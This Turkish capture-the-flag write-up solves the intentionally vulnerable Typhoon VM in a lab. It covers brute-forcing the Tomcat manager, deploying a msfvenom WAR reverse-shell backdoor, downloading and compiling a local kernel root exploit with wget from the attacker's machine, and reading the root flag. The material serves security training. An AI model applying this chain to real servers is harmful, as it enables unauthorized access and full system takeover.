PRISMACSI’nin hazırlamış olduğu “Hedef ben miyim Tayfun?” dan gelen typhoon vulnerable vm adlı makineyi bu yazımla beraber çözmüş olacağız.
İlk olarak makineyi virtualbox’ımıza kurduktan sonra hangi IP adresini aldığını öğrenmek için netdiscover aracından yararlanmaktayız. Net discoverin sonucunda aşağıdaki resimde de görüldüğü gibi 192.168.1.104 IP adresini aldığını buluyoruz. Bundan sonraki işlemleri bu IP adresi üzerinden yapacağız.

IP adresini de bulduğumuza göre, şimdi nmap ile port taramasını yaparak açık (open) olan servisleri (services) ve versiyonları (version) öğrenmiş olacağız. Taramayı yaptıktan sonra ise 8080 portunun açık olduğunu ve Tomcat’in çalıştığını gördük.

Tomcat çalışıyor olduğu için 192.168.1.104:8080 adresini ziyaret ettik. Karşımıza It Works (çalıştı) adlı sayfa geldi. Bu sayfayı incelediğimiz de manager webapp adlı linki gördük.

Buna tıkladığımızda ise karşımıza bir login (giriş) ekranı geldi. User Name ve Password bilgilerini istedi. Bu bilgilere her ne kadar basic olarak tomcat:tomcat yaparak girsekte bu her zaman tutmayabilir. Böyle durumlarda şifreyi kırmanız gerekir. Bunun için de msfconsole adlı araçtan yararlanacağız. Terminale msfconsole yazdıktan sonra karşımıza msfconsole ekranı gelmektedir. Burada yapacağımız iş tomcat’in giriş bilgilerini elde etmek olduğundan ilk önce hangi modülü kullanmamız gerektiğini bilmemiz gerekiyor. search tomcat yazdığımızda msfconsole bizim için tüm tomcat modüllerini karşımıza getirecek.

Şifreyi kırmak istediğimizden dolayı bizi ilgilendiren modülün 9.sıradaki olan modül olduğunu öğrendik. Kısa yolla use 9 dediğimizde otomatik olarak o modüle geçiş sağlanmış oldu. Hangi ayarları yapmamız gerektiğini show options yardımı ile görüyoruz. Karsımıza gelen ekranda RPORT’un otomatik olarak 8080 geldiğini gördüğümüz için değiştirme gereği duymadık. Sadece RHOST’u ayarlamamız gerekmektedir. Bunun için de set RHOST 192.168.1.104 adlı komutu girdik. Burada unutmamız gereken nokta ise RHOST’a hedef IP’yi yazmamız olması. Bunu da girdikten sonra run diyerek brute-force saldırsını başlatmış olduk.

Saldırının sonucunda user name ve password bilgilerine erişmiş olduk. User name; tomcat, password; tomcat.

Gerekli bilgileri girdikten sonra OK diyerek giriş yapıyoruz.

Giriş yaptıktan sonra aşağıdaki gibi bir sayfa gelmektedir. Bu sayfayı inceledikten sonra şunu fark ediyoruz. War uzantılı bir dosyayı deploy edebiliyoruz yani yükleyebiliyoruz. War uzantısı java’nın uzantısıdır. Bu bize şu avantajı sağlar; war uzantılı bir backdoor oluşturup siteye deploy edersek, bunun vasıtası ile sisteme sızabiliriz.

War uzantılı dosyayı msfconsole’a giriş yaptıktan sonra msfvenom üzerinden yapıyoruz. Aşağıdaki gibi bir komut yazıyoruz. Bu komutta LHOST’un dinleyecek olan ip yi yani kendi makinenizi yazmanız gerekmektedir. LPORT ise hangi port üzerinden dinlemek istediğiniz. msf.war ise war uzantısına istediğimiz bir isim veriyoruz. Bunu oluşturup siteye deploy ediyoruz.

Siteye deploy ettikten sonra dinlememiz için gerekli olan ayarlamaları ise yine msfconsole üzerinden yapıyoruz. Bunun için exploit modülü olan multi/handler’i seçiyoruz. Bunu seçtikten sonra payload olarak ise java/jsp_shell_reverse_tcp’yi seçiyoruz. Ardından lhost ve lport’a ise msfvenom oluştururken ki kullandığınız IP ve portu set ediyoruz. Bunları oluşturduktan sonra exploit diyip dinlemeye başlıyoruz.

Dinlemeye başladıktan sonra sızma işleminin başarılı olması için yüklediğimiz deploy’un üstüne tıklamamız gerekmektedir.

Tıkladıktan sonra aşağıda da görüldüğü gibi sızma işlemi başarıyla olmuş oldu.

İçeriye sızdıktan sonraki hedefimiz root yetkisi almak. Öncelikle şu an kim olduğumuzu sorgulamak için id komutunu kullanıyoruz. Çıkan sonuçta tomcat kullanıcısı olduğumuzu öğrendik. Root yetkisi almak için uname -a komutu ile kernel bilgilerini elde ettik. 3.13.0-32 generic olduğunu öğrendikten sonra internetten bunun hakkında araştırma yaptığımızda gerekli exploit’in ne olduğunu bulduk.
https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c

Github sayfasından bulduğumuz kodu farklı bir terminal üzerinden wget https://github.com/offensive-security/exploitdb/blob/master/exploits/linux/local/37292.c komutu ile bilgisayarımıza indiriyoruz. İndirdikten sonra terminale python -m SimpleHTTPServer 9000 komutu ile Directory Listening açıyoruz.

Bu komutu girdikten sonra, tarayıcımıza girip 192.168.1.103:9000 yazıyoruz (IP adresinin kendi IP adresi ile değiştirmeyi unutmayın.). Karşımıza gelen web sayfasında kodun ismi olan 37292.c’nin üzerine tıklayıp url kısmını kopyalıyoruz.

Url’yi aldıktan sonra tekrar sızma işlemini yaptığımız terminale dönüyoruz. Burada kodu indirmemiz gerektiği için temp (/tmp) dosyasına girmemiz gerekmektedir çünkü temp bize indirme işlemine izin vermektedir. Genellikle bu tarz makinelerin hepsinde bu böyledir ama ls -la komutu ile izinleri kontrol etmekte fayda var. cd /tmp komutu ile temp klasörünün içerisine giriyoruz. Girdikten sonra kopyaladığımız url’yi wget http://192.168.1.103:9000/37292.c komutu ile indiriyoruz.

İndirdikten sonra indirmiş olduğumuz kodu derlememiz gerekmektedir. Bunun için gcc 37292.c -o exploit komutunu yazarak exploit adında bir output vermesini beklemekteyiz.

Outputumuzu aldıktan sonra işlem yapabilmesi için yetki vermemiz gerekmektedir. Bunun için ise chmod u+x exploit komutunu kullanacağız. Yetki verdikten sonra ./exploit ile çalıştırıyoruz. Bu işlemden sonra id komutunu yazdığımızda tomcat kullanıcısın kaybolup artık root kullanıcısı olduğumuzu görüyoruz.

Root olup olmadığımızı bir şekilde daha kontrol edebiliriz. cd .. ile bir üst dizine çıkıyoruz. Çıktıktan sonra cd root yazıyoruz. ls komutu ile bu dizindeki dosyaları görüyoruz. Resimde de gözüktüğü gibi bir tane root-flag dosyası görüyoruz. Bu dosyayı cat root-flag ile açtığımızda karşımızda bize tebrikler rootsunuz mesajı veriyor.

Bilgilendirme yazım bitmiştir. Vakit ayırdığınız için teşekkür ederim. Bir sonraki writeup’da görüşmek üzere.